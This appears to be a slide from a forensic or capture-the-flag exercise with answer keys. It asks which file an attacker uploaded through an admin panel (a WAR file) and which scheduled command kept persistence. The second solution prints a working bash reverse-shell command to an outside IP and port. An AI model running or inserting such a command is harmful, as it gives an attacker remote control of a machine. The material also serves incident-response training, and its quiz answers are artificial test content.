

Questions
07.	Once inside the admin panel, the attacker attempted to upload a file with 			the intent of establishing a reverse shell. Can you identify the name of this 			malicious file from the captured data?

-Solution-
JXQOZY.war
08.	After successfully establishing a reverse shell on our server, the attacker 			aimed to ensure persistence on the compromised machine. From the 				analysis, can you determine the specific command they are scheduled to 			run to maintain their presence?

-Solution-
/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'